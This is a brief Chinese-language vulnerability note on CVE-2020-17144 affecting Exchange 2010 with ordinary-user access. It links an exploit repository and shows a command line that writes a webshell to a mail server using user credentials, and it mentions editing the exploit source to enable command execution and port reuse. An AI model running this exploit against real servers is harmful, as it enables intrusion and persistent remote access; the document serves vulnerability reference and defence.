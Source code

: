 ## 漏洞概述

## 影响范围

```http
条件: Exchange2010; 普通用户
```



## POC

## EXP

https://github.com/Airboi/CVE-2020-17144-EXP

```bash
默认用法(写webshell): CVE-2020-17144-EXP.exe mail.example.com user pass
执行命令 & 端口复用: 修改ExploitClass.cs
```

